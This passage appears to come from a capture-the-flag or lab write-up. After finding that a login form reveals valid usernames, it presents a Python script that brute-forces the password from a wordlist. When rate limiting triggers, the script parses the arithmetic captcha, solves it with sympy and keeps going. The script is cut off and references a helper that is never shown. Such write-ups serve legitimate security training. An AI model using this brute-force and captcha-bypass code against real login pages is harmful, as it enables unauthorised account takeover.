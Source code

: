 It responses "**Error:** Invalid password for user '{Redacted}'"!

**Then, we can brute force it's password!**
```py
#!/usr/bin/env python3
import requests
from threading import Thread
from time import sleep
from bs4 import BeautifulSoup
import re
import sympy

class Bruteforcer:
    def __init__(self, url, username, passwordWordList):
        self.url = url
        self.username = username
        self.passwordWordList = passwordWordList

    def enumeratePassword(self):
        listPasswords = self.readFile()
        listPasswordsLength = len(listPasswords)
        for index, password in enumerate(listPasswords):
            print(f'[*] Trying password: {password:20s} ({index + 1}/{listPasswordsLength})', end='\r')
            self.enumeratePasswordRequest(password)

    def readFile(self):
        listPasswords = list()
        try:
            with open(self.passwordWordList, 'r') as file:
                for line in file:
                    password = line.strip()
                    listPasswords.append(password)

                return listPasswords
        except FileNotFoundError:
            print(f'The file {self.passwordWordList} doesn\'t exist.')

    def enumeratePasswordRequest(self, password):
        payload = {
            'username': self.username,
            'password': password
        }
        passwordRequest = requests.post(self.url, data=payload)
        isRateLimited = 'Too many bad login attempts!' in passwordRequest.text and 'Invalid password' not in passwordRequest.text
        if isRateLimited:
            soup = BeautifulSoup(passwordRequest.text, 'html.parser')
            # grab pattern like '342 - 47'. Generated from ChatGPT
            pattern = r'(\d+\s*.\s*\d+)'
            captchaMatched = re.search(pattern, soup.text)
            if not captchaMatched:
                print('[-] No captcha found.')

            equation = captchaMatched.group(0)
            answer = sympy.sympify(equation)
            self.afterSolvedCaptchaRequest(password, answer)
            return

        isValidPassword = not 'Invalid password' in passwordRequest.text
        if isValidPassword:
            print(f'[+] Found valid password! username: {self.username}, password: {password}')
            exit()

```